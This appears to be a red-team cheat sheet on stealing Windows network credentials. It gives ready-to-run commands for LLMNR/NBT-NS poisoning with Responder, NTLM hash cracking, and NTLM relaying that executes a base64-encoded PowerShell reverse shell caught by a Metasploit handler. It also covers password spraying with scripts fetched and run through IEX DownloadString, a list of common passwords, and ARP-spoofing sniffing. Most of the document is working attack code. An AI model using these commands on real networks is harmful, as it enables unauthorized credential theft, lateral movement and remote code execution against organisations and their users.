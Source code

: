 ## LLMNR & NBT-NS Poisoning
- The victim wants to go to the print server at \\printserver, but mistakenly types in \\pintserver.
- The DNS server responds to the victim saying that it doesn’t know that host.
- The victim then asks if there is anyone on the local network that knows the location of \\pintserver.
- The attacker responds to the victim saying that it is the \\pintserver.
- The victim believes the attacker and sends its own username and NTLMv2 hash to the attacker.
- The attacker can now crack the hash to discover the password.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen1.png?raw=true)

### Responder
```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

## Network Windows Authentication Cracking
### NTLMv1 (Net-NTLMv1) Crack
```
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 (Net-NTLMv2) Crack
```
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## NTLM Relaying
- SMB Signing must be disabled, and this is the default setting except for the domain controllers.
- Relay the hashes to another machine.
- User must have admin access on this machine.

### Responder with SMB & HTTP Disabled (in Responder.conf)

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen2.png?raw=true)

```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

### Determine the machines that have SMB signing disabled

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen3.png?raw=true)

### Powershell Reverse Encoded Shell
```
import base64
ip = '10.10.12.133' # your reverse shell ip
port = 4444 # your reverse shell port
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print cmdline
```

### Run ntlmrelayx.py script and pass to it the encoded reverse shell.
```
git clone https://github.com/SecureAuthCorp/impacket
python3 ntlmrelayx.py -smb2support -tf targets.txt -of result -debug -c 'powershell -e EnCoDeDShElL'
```

### Metasploit multi handler to receive the shell.
```
msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lhost 10.0.2.15
set lport 4444
set ExitOnSession False
exploit -j
```

### Overall Process Overview
Machine 10.0.2.7 asks for an unknown host, then the attacker machine 10.0.2.15 responds to it with its own IP address, then machine 10.0.2.7 sends its credentials to the attacker machine 10.0.2.15 on port SMB, then the attacker machine takes these credentials and relays them to another machine 10.0.2.6, then machine 10.0.2.6 executed our reverse shell and the shell get back to us at 10.0.2.15.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen4.png?raw=true)

## Internal Password Spraying

### Get domain users using powerview
```
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1");
Get-DomainUser | select samaccountname > users.txt
```

### Get domain users using rpcclient
```
nmap -Pn -sS -p389 --open 10.10.0.0/16 // Find Domain Controller

rpcclient -U "" -N 10.10.1.50 // Authenticate Using Null Session
rpcclient -U "MEGA\hsaad" 10.10.1.50 // Authenticate Using Domain User & Password
>> enumdomusers // Enumerate All Domain Users
```

### Get domain password policy using powerview

```
(Get-DomainPolicy)."SystemAccess"
```

### Get domain password policy using rpcclient
```
>> getdompwinfo
```

### Password Spraying Using Hydra

Don't forget the lockout threshold if it exists, for example, if it set for 5 tries in 30 minutes, then can only try 4 failed attempts on every account every 30 minutes.
```
hydra -V -L users.txt -P pass.txt -m MEGA.local -t 1 10.10.1.50 smb
hydra -V -L users.txt -e nsr -m MEGA.local -t 1 10.10.1.50 smb
```

### Password Spraying Using DomainPasswordSpray
By default, the tool will enumerate the users in the domain, then will filter from them any disabled account or any account that reaches the limit of the lockout.
```
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1");
Invoke-DomainPasswordSpray -Password Spring2017
Invoke-DomainPasswordSpray -UserList users.txt -PasswordList passlist.txt
```

### Common Passwords
```
12345
123456
123456789
P@ssw0rd
P@ssword
P@ssword@123
password@123
Company_name@123
admin@123
```

## Sniffing

### ARPspoof
```
echo 1 > /proc/sys/net/ipv4/ip_forward // To enable traffic forwarding
arpspoof -i eth0 -t 10.0.2.6 -r 10.0.2.1
```

### Wireshark

Search For Passwords

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen5.png?raw=true)

Follow TCP Stream

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen6.png?raw=true)


### Ettercap

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen7.png?raw=true)

URL: https://vimeo.com/368434044​
